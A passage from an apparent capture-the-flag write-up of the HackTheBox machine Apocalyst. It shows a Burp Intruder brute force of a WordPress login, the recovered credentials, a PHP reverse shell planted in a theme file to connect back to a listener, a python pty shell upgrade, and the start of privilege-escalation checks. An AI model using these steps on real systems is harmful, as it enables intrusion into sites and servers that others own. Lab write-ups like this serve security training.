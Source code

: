We can see that wpscan found a bunch of possible vulnerabilities and a user named falaraki. Maybe let’s brute force wordpress with the word-list we got from the image on `http://10.10.10.46/wp-login.php`

I captured a test request in Burp Suite at the login page and sent it over to the intruder option.

![Medium](https://cdn-images-1.medium.com/max/1000/1*p0dXvfwtCk_kh8uqzCDqiw.png)

Were going to select the password `pwd` parameter only and the Attack type will be Sniper. We move onto to the payloads section and add the list we got from the image. Then start the attack - all requests sent back a 200 status code and most of them had a 3101 in length except this one request that had 3764 in length meaning it either worked as the correct password, timed out, or it gave us a unique error that only that password can give.
![Medium](https://cdn-images-1.medium.com/max/800/1*Tiqvzm1l1lT7UN9AcbU84g.png)

Let’s try to login with that password Transclisiation

username: falaraki 
password: Transclisiation

## …and were in!

<p align="center">
<img align="center" src="giphy-downsized-large.gif" width="100%" alt=" Gif"/>
</p>

Now we can upload our php reverse shell in the Appearance Editor. I got my php shell from PenTestMonkey I’m not going to paste the entire code here because it’s a lot of code, so all you have to do is change your ip and port number. Where it says //CHANGE THIS to your ip and desired port number.
```
$ip = ‘127.0.0.1’; // CHANGE THIS
$port = 1234; // CHANGE THIS
```

![Medium](https://cdn-images-1.medium.com/max/1000/1*pPSCaR3SLq6bJp03dl7BnA.png)

Save the changes made to the file once your reverse shell is in and setup your netcat or metasploit listener. Then execute the php reverse shell.

http://apocalyst.htb/wp-content/themes/twentyseventeen/404.php

![Medium](https://cdn-images-1.medium.com/max/1000/1*0rBzf6vwduDRypZDPNF4UA.png)

Now we can get the user flag!

![Medium](https://cdn-images-1.medium.com/max/1000/1*HKEG1VmC4zUukGrXrwrgFg.png)

“One of my go-to commands after catching a dumb shell is to use Python to spawn a pty. The pty module let’s you spawn a psuedo-terminal that can fool commands like `su` into thinking they are being executed in a proper terminal. To upgrade a dumb shell, simply run the following command”

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

I uploaded linux-exploit-suggester to the system to check for possible privilege escalation exploits.
```
www-data@apocalyst:/tmp$ ./linux-exploit-suggester.sh
./linux-exploit-suggester.sh

Kernel version: 4.4.0
Architecture: x86_64
Distribution: ubuntu
Package list: from current OS

Possible Exploits:

[+] [CVE-2015–3290] espfix64_NMI
```